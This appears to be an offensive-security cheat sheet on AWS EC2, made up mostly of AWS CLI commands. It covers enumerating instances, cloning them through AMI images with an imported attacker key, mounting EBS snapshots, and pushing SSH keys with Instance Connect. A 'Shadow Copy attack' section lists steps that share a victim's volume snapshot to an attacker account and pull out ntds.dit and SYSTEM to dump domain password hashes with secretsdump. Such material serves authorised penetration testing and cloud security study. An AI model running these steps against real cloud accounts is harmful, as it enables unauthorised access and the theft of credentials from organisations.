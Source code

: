 # AWS - Service - EC2

* [dufflebag](https://labs.bishopfox.com/dufflebag) - Find secrets that are accidentally exposed via Amazon EBS's "public" mode


## Listing Information About EC2

```ps1
aws ec2 describe-instances
aws ec2 describe-instances --region region
aws ec2 describe-instances --instance-ids ID
```





## Copy EC2 using AMI Image

First you need to extract data about the current instances and their AMI/security groups/subnet : `aws ec2 describe-images --region eu-west-1`

```powershell
# create a new image for the instance-id
$ aws ec2 create-image --instance-id i-0438b003d81cd7ec5 --name "AWS Audit" --description "Export AMI" --region eu-west-1  

# add key to AWS
$ aws ec2 import-key-pair --key-name "AWS Audit" --public-key-material file://~/.ssh/id_rsa.pub --region eu-west-1  

# create ec2 using the previously created AMI, use the same security group and subnet to connect easily.
$ aws ec2 run-instances --image-id ami-0b77e2d906b00202d --security-group-ids "sg-6d0d7f01" --subnet-id subnet-9eb001ea --count 1 --instance-type t2.micro --key-name "AWS Audit" --query "Instances[0].InstanceId" --region eu-west-1

# now you can check the instance 
aws ec2 describe-instances --instance-ids i-0546910a0c18725a1 

# If needed : edit groups
aws ec2 modify-instance-attribute --instance-id "i-0546910a0c18725a1" --groups "sg-6d0d7f01"  --region eu-west-1

# be a good guy, clean our instance to avoid any useless cost
aws ec2 stop-instances --instance-id "i-0546910a0c18725a1" --region eu-west-1 
aws ec2 terminate-instances --instance-id "i-0546910a0c18725a1" --region eu-west-1
```


## Mount EBS volume to EC2 Linux

:warning: EBS snapshots are block-level incremental, which means that every snapshot only copies the blocks (or areas) in the volume that had been changed since the last snapshot. To restore your data, you need to create a new EBS volume from one of your EBS snapshots. The new volume will be a duplicate of the initial EBS volume on which the snapshot was taken.

1. Head over to EC2 –> Volumes and create a new volume of your preferred size and type.
2. Select the created volume, right click and select the "attach volume" option.
3. Select the instance from the instance text box as shown below : `attach ebs volume`
    ```powershell
    aws ec2 create-volume –snapshot-id snapshot_id --availability-zone zone
    aws ec2 attach-volume –-volume-id volume_id –-instance-id instance_id --device device
    ```
4. Now, login to your ec2 instance and list the available disks using the following command : `lsblk`
5. Check if the volume has any data using the following command : `sudo file -s /dev/xvdf`
6. Format the volume to ext4 filesystem  using the following command : `sudo mkfs -t ext4 /dev/xvdf`
7. Create a directory of your choice to mount our new ext4 volume. I am using the name “newvolume” : `sudo mkdir /newvolume`
8. Mount the volume to "newvolume" directory using the following command : `sudo mount /dev/xvdf /newvolume/`
9. cd into newvolume directory and check the disk space for confirming the volume mount : `cd /newvolume; df -h .`


## Shadow Copy attack

**Requirements**:

* EC2:CreateSnapshot
* [Static-Flow/CloudCopy](https://github.com/Static-Flow/CloudCopy)

**Exploit**:

1. Load AWS CLI with Victim Credentials that have at least CreateSnapshot permissions
2. Run `"Describe-Instances"` and show in list for attacker to select
3. Run `"Create-Snapshot"` on volume of selected instance
4. Run `"modify-snapshot-attribute"` on new snapshot to set `"createVolumePermission"` to attacker AWS Account
5. Load AWS CLI with Attacker Credentials
6. Run `"run-instance"` command to create new linux ec2 with our stolen snapshot
7. Ssh run `"sudo mkdir /windows"`
8. Ssh run `"sudo mount /dev/xvdf1 /windows/"`
9. Ssh run `"sudo cp /windows/Windows/NTDS/ntds.dit /home/ec2-user"`
10. Ssh run `"sudo cp /windows/Windows/System32/config/SYSTEM /home/ec2-user"`
11. Ssh run `"sudo chown ec2-user:ec2-user /home/ec2-user/*"`
12. SFTP get `"/home/ec2-user/SYSTEM ./SYSTEM"`
13. SFTP get `"/home/ec2-user/ntds.dit ./ntds.dit"`
14. locally run `"secretsdump.py -system ./SYSTEM -ntds ./ntds.dit local -outputfile secrets'`, expects secretsdump to be on path


## Access Snapshots 

1. Get the `owner-id`
    ```powershell
    $ aws --profile flaws sts get-caller-identity
    "Account": "XXXX26262029",
    ```
2. List snapshots
    ```powershell
    $ aws --profile flaws ec2 describe-snapshots --owner-id XXXX26262029 --region us-west-2
    "SnapshotId": "snap-XXXX342abd1bdcb89",
    ```
3. Create a volume using the previously obtained `snapshotId`
    ```powershell
    $ aws --profile swk ec2 create-volume --availability-zone us-west-2a --region us-west-2  --snapshot-id  snap-XXXX342abd1bdcb89
    ```
4. In AWS console, deploy a new EC2 Ubuntu based, attach the volume and then mount it on the machine.
    ```ps1
    $ ssh -i YOUR_KEY.pem  ubuntu@ec2-XXX-XXX-XXX-XXX.us-east-2.compute.amazonaws.com
    $ lsblk
    $ sudo file -s /dev/xvda1
    $ sudo mount /dev/xvda1 /mnt
    ```


## Instance Connect

Push an SSH key to EC2 instance

```powershell
# https://aws.amazon.com/fr/blogs/compute/new-using-amazon-ec2-instance-connect-for-ssh-access-to-your-ec2-instances/
$ aws ec2 describe-instances --profile uploadcreds --region eu-west-1 | jq ".[][].Instances | .[] | {InstanceId, KeyName, State}"
$ aws ec2-instance-connect send-ssh-public-key --region us-east-1 --instance-id INSTANCE --availability-zone us-east-1d --instance-os-user ubuntu --ssh-public-key file://shortkey.pub --profile uploadcreds
```


## References

* [How to Attach and Mount an EBS volume to EC2 Linux Instance - AUGUST 17, 2016](https://devopscube.com/mount-ebs-volume-ec2-instance/)